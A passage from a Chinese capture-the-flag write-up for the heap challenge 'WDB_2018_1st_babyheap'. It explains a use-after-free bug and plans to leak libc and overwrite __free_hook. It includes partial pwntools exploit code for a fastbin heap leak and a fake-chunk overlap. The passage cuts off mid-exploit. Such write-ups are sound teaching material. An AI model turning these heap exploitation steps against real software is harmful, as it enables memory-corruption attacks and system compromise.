 ```
    pwn()
```
---
## WDB_2018_1st_babyheap
同样是菜单题目,设计的十分巧妙,涉及到了很多堆的知识点.
```
    I thought this is really baby.What about u?
    Loading.....
    1.alloc
    2.edit
    3.show
    4.free
    5.exit
    Choice:
```
漏洞点出在`4.free` 选项中,调用`free()`之后没有清空指针,存在UAF.
但是`2.edit`的使用次数被限制在了三次以内.

思路如下: 
1. 我们希望覆盖`__free_hook`为`system` (或者直接覆盖为一个one_gadget),因此我们需要泄露libc,并通过Unlink实现任意地址写
2. unsorted bin中的`fd`指向`main_arena`,我们需要将一个chunk放入unsorted bin并利用UAF泄露`main_arena`,以此泄露libc
同时,我们也要将chunk送入unsorted bin 以触发unlink

3. 程序只允许我们`malloc()` 0x20大小的内存(即0x30大小的chunk),因此我们需要通过UAF,overlap 与fastbin attack构造fake chunk
4. 想要实现步骤3, 需要我们泄露堆地址

那么先从泄露堆地址开始做
```
    alloc(0,"a\n")
    alloc(1,"b\n")
    free(1)
    free(0)

    show(0)
    heap_leak = u64(target.recv(6).ljust(8,'\x00'))
    success(hex(heap_leak))
```
fastbin是FILO的,两次`free`之后,fastbins 如下
|fastbin|
|-|
|chunk0 @index0|
|🠗|
|chunk1 @index1|

chunk0->fd指向chunk1,因此`show(0)`可以泄露出chunk1的Prev_size地址(即heap+0x30)
注意此处释放顺序,第一个chunk地址低字节是\x00且程序为小端序,因此调换释放顺序后,我们无法用chunk1泄露chunk0的地址.

然后进行fastbin attack,构造chunk重叠
```
    edit(0,p64(heap_leak-0x10)+p64(0)+p64(0)+p64(0x31))
```
如此,chunk0的fd便指向 chunk1-0x10, 也就是chunk0+0x20的位置.
我们那里构建一个size为0x30的fake chunk,造成chunk重叠.
